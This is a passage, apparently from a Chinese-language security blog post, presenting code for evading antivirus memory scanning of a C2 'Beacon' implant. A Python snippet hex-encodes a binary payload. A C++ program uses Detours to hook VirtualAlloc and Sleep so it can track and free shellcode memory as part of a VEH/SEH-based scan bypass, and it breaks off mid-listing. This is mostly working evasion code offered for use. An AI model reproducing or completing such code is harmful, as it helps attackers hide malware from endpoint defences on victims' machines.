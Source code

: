     # 将二进制内容转换为16进制字符串  
    hex_content = binascii.hexlify(bin_content).decode()  
      
    # 将16进制字符串保存到txt文件  
    with open(txt_file_path, 'w') as f:  
        f.write(hex_content)  
      
    print("转换完成，16进制内容已保存到{}中".format(txt_file_path))

以下是绕过内存查杀的主要实现代码示例。在这个示例中，我们使用向量异常处理（VEH）来修改内存的可执行属性，以及使用结构化异常处理（SEH）来捕获访问违规异常并处理。

    
    
    #include <iostream>  
    #include<Windows.h>  
    #include <detours/detours.h>  
    #include <detours/detver.h>  
    #include <fstream>  
    #include <sstream>  
    #include <iostream>  
      
    using namespace std;  
      
    // 全局变量声明  
    LPVOID Beacon_address; // Beacon内存地址  
    SIZE_T Beacon_data_len; // Beacon内存长度  
    DWORD Beacon_Memory_address_flOldProtect; // Beacon内存属性  
    HANDLE hEvent; // 事件句柄  
      
    BOOL Vir_FLAG = TRUE; // 感染标记  
    LPVOID shellcode_addr; // shellcode内存地址  
      
    //定义两个指向原函数的指针，分别是Sleep和VirtualAlloc  
    static VOID(WINAPI* OldSleep)(DWORD dwMilliseconds) = Sleep;  
    static LPVOID (WINAPI *OldVirtualAlloc)(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect) = VirtualAlloc;  
      
    //定义Sleep和VirtualAlloc的钩子函数  
    LPVOID WINAPI NewVirtualAlloc(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect) {  
    Beacon_data_len = dwSize;  
    Beacon_address = OldVirtualAlloc(lpAddress, dwSize, flAllocationType, flProtect);  
    printf("Memory Allocation Size:%d\n", Beacon_data_len);  
    printf("Memory Allocation Address:%llx \n", Beacon_address);  
    return Beacon_address;  
    }  
    void WINAPI NewSleep(DWORD dwMilliseconds)  
    {  
    if (Vir_FLAG)  
    {  
    printf("Free Memory Address:%llx\n", shellcode_addr);  
    VirtualFree(shellcode_addr, 0, MEM_RELEASE);  
    Vir_FLAG = false;  
    }  
    printf("The time of Sleep:%d\n", dwMilliseconds);  
    SetEvent(hEvent);  
    OldSleep(dwMilliseconds);  
    }  
      